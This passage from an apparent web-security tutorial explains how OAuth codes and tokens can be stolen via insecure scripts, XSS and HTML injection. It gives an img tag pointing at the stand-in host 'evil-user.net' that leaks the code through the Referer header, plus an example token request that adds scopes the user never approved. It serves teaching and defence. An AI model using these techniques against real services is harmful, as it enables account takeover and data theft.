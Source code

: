 In addition to open redirects, you should look for any other vulnerabilities that allow you to extract the code or token and send it to an external domain. Some good examples include:
- **Dangerous JavaScript that handles query parameters and URL fragments**  
    For example, insecure web messaging scripts can be great for this. In some scenarios, you may have to identify a longer gadget chain that allows you to pass the token through a series of scripts before eventually leaking it to your external domain.
- **XSS vulnerabilities**  
    Although XSS attacks can have a huge impact on their own, there is typically a small time frame in which the attacker has access to the user's session before they close the tab or navigate away. As the `HTTPOnly` attribute is commonly used for session cookies, an attacker will often also be unable to access them directly using XSS. However, by stealing an OAuth code or token, the attacker can gain access to the user's account in their own browser. This gives them much more time to explore the user's data and perform harmful actions, significantly increasing the severity of the XSS vulnerability.
- **HTML injection vulnerabilities**  
    In cases where you cannot inject JavaScript (for example, due to [CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) constraints or strict filtering), you may still be able to use a simple HTML injection to steal authorization codes. If you can point the `redirect_uri` parameter to a page on which you can inject your own HTML content, you might be able to leak the code via the `Referer` header. For example, consider the following `img` element: `<img src="evil-user.net">`. When attempting to fetch this image, some browsers (such as Firefox) will send the full URL in the `Referer` header of the request, including the query string.

### Flawed scope validation
In any OAuth flow, the user must approve the requested access based on the scope defined in the authorization request. The resulting token allows the client application to access only the scope that was approved by the user. But in some cases, it may be possible for an attacker to "upgrade" an access token (either stolen or obtained using a malicious client application) with extra permissions due to flawed validation by the OAuth service. The process for doing this depends on the grant type.

#### Scope upgrade: authorization code flow
With the [authorization code grant type](https://portswigger.net/web-security/oauth/grant-types#authorization-code-grant-type), the user's data is requested and sent via secure server-to-server communication, which a third-party attacker is typically not able to manipulate directly. However, it may still be possible to achieve the same result by registering their own client application with the OAuth service.

For example, let's say the attacker's malicious client application initially requested access to the user's email address using the `openid email` scope. After the user approves this request, the malicious client application receives an authorization code. As the attacker controls their client application, they can add another `scope` parameter to the code/token exchange request containing the additional `profile` scope:

```http
POST /token 
Host: oauth-authorization-server.com 
… 
client_id=12345&client_secret=SECRET&redirect_uri=https://client-app.com/callback&grant_type=authorization_code&code=a1b2c3d4e5f6g7h8&scope=openid%20email%20profile
```

If the server does not validate this against the scope from the initial authorization request, it will sometimes generate an access token using the new scope and send this to the attacker's client application:

```json
{ 
	"access_token": "z0y9x8w7v6u5", 
	"token_type": "Bearer", 
	"expires_in": 3600, 
	"scope": "openid email profile",
	…
}
```
